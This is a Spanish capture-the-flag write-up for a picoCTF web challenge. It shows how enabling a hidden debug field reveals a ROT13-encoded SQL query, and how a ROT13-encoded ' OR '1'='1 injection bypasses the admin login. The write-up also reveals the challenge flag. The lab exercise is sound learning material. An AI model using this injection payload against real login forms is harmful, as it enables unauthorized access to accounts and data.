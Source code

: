 ## Objetivo:
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!

**Hints:**
1. Seems like the password is encrypted.

## Solución:
1. Al inspeccionar la página de inicio de sesión, podemos encontrar que hay un campo del formulario oculto llamado `debug`. por lo tanto lo establecemos en 1:

```html
<input type="hidden" name="debug" value="0">

<input type="hidden" name="debug" value="1">
```

2. Al establecer el valor en `1`  e ingresar alguna contraseña nos muestra:

```txt
password: hola
SQL query: SELECT * FROM admin where password = 'ubyn'

Login failed.
```

3. Al parecer la contraseña esta encriptada, notamos que se encripta usando ROT13 esto con ayuda de la herramienta [CyberChef](https://gchq.github.io/CyberChef/).

4. Codificamos con ROT13 `'OR '1'=='1'` y obtenemos  `'BE '1'=='1'` y esto se lo enviamos a la pagina para obtener la bandera: 

```txt
password: ' be '1'='1
SQL query: SELECT * FROM admin where password = '' or '1'='1'

Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}
```

### Flag: picoCTF{3v3n_m0r3_SQL_4424e7af}

## Notas adicionales:

### SQL Injection:
La inyección SQL es una técnica de inyección de código que podría destruir su base de datos. La inyección SQL es una de las técnicas de piratería web más comunes. La inyección SQL es la colocación de código malicioso en declaraciones SQL, a través de la entrada de una página web.

### ROT13:
El Cifrado ROT-13 es un tipo particular de Cifrado César, en el que el desplazamiento de las letras es de 13 posiciones. Tiene importancia porque el alfabeto (el inglés, sin la ñ) tiene 26 letras, por lo que al desplazar 13 dos veces, volvemos a la posición inicial. Por ejemplo, la letra A, al cifrarla mediante ROT-13, se convierte en la N y, si ciframos la N, se convierte en la A. Es decir, para descifrar un texto hay que hacer lo mismo que para cifrarlo.

## Referencias:
- https://www.w3schools.com/sql/sql_injection.asp
- https://es.wikipedia.org/wiki/ROT13
